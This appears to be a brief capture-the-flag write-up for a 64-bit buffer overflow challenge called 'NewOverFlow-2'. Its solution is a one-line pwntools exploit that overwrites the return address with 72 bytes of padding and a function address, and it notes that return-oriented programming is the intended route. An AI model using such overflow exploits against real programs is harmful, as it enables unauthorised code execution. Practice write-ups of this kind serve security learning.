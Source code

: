 # NewOverFlow-2

## Summary

Okay now lets try mainpulating arguments. program. You can find it in /problems/newoverflow-2_1_bcd752d56a87efb5dfc9803b461809f7 on the shell server. Source.

## Solution

cd /problems/newoverflow-2_1_bcd752d56a87efb5dfc9803b461809f7; python2 -c 'from pwn import *; print "A"*72 + p64(0x040084d)' | ./vuln

## Notes

Guess the intended way is to use ROP check the solution.py
